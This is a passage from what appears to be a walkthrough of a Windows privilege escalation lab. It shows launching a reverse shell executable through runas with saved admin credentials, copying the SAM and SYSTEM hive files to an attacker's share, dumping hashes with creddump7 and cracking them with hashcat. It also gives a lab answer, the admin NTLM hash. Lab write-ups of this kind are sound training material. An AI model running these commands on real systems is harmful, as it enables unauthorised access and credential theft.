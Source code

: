 Start a listener on Kali and run the reverse.exe executable using runas with the admin user's saved credentials:<br>

<code>runas /savecred /user:admin C:\PrivEsc\reverse.exe</code></p>

<p><em>Answer the question below</em></p>

<p>10.1. Read and follow along with the above.<br>
<code>No answer needed</code></p>

```bash
C:\PrivEsc>cmdkey /list
```

```bash
C:\PrivEsc>runas /savecred /user:admin reverse.exe
```

<img width="887" height="554" alt="image" src="https://github.com/user-attachments/assets/c28bb856-3768-4341-9c0b-bbfec5cc699c" />

<br>
<br>
<br>
<h2>Task 11 . 𝗣𝗮𝘀𝘀𝘄𝗼𝗿𝗱𝘀 - Security Account Manager (SAM)<a id='11'></h2>
<p>The SAM and SYSTEM files can be used to extract user password hashes. This VM has insecurely stored backups of the SAM and SYSTEM files in the C:\Windows\Repair\ directory.<br>

Transfer the SAM and SYSTEM files to your Kali VM:</p>

<p><code>copy C:\Windows\Repair\SAM \\10.10.10.10\kali\</code><br>
<code>copy C:\Windows\Repair\SYSTEM \\10.10.10.10\kali\</code></p>

<p>On Kali, clone the creddump7 repository (the one on Kali is outdated and will not dump hashes correctly for Windows 10!) and use it to dump out the hashes from the SAM and SYSTEM files:<br>

<code>git clone https://github.com/Tib3rius/creddump7</code><br>
<code>pip3 install pycrypto</code><br>
<code>python3 creddump7/pwdump.py SYSTEM SAM</code></p>

<p>Crack the admin NTLM hash using hashcat:<br>

<code>hashcat -m 1000 --force <hash> /usr/share/wordlists/rockyou.txt</code><br>

You can use the cracked password to log in as the admin using winexe or RDP.</p>

<p><em>Answer the question below</em></p>

<p>11.1. What is the NTLM hash of the admin user?<br>
<code>a9fdfa038c4b75ebc76dc855dd74f0da</code></p>


```bash
:~/WindowsPrivEsc# git clone https://github.com/Tib3rius/creddump7
Cloning into 'creddump7'...
remote: Enumerating objects: 107, done.
remote: Counting objects: 100% (5/5), done.
remote: Compressing objects: 100% (5/5), done.
remote: Total 107 (delta 0), reused 1 (delta 0), pack-reused 102 (from 1)
Receiving objects: 100% (107/107), 51.65 KiB | 12.91 MiB/s, done.
Resolving deltas: 100% (55/55), done.
```
